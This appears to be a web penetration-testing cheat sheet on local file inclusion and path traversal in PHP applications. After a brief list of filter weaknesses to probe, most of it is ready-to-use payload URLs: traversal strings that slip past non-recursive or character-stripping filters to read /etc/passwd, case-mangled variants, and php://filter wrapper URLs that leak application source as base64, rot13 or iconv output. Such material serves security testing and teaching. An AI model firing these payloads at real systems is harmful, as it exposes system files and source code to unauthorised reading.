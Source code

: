 ___
Things to consider:

- Are filters applied recursively ?
- Insufficient character blacklist
- Not using allow lists
- Can it properly handle encoded payloads?

### **Basic**
**Non-recursive filter bypass**
```Python
http://example.com/read.php?file=..././..././..././..././..././..././etc/passwd
```
**Mangle capitals & operators for filter bypasses**
```Python
http://example.com/read.php?file=..././..././..././..././..././..././eTc/p+AsS+wd
```
Play with the characters, determine if certain characters are being stripped out, you may be able to abuse the order at which chars are stripped out. for example:
if `$` is being filtered out at the last step of the process, you may be able to split your payload with that characters, with it being reconstructed post filter.
```
/.$./.$./.$./etc/passwd
```
becomes:
```
/../../../etc/passwd
```

### **PHP Wrappers**

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Wrappers.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Wrappers.md)

- Leak php code instead of executing it.
```Python
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```